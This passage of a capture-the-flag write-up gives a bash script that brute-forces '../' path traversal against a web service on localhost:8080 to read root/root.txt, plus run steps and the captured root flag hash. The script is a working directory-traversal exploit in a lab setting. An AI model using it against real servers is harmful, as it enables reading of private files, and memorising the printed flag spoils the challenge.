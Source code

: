 ```
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

```ad-hint
1. Create a `exp.sh` file with the contents shown above.
2. `chmod +x exp.sh`
3. `./exp.sh`
4. Get your root flag!

### Output
---
![](../images/Pasted%20image%2020250109173841.png)

Root: `2cbb12ac6cf8301162f1db597fd5ee7c`
```


Just like that, machine is done!

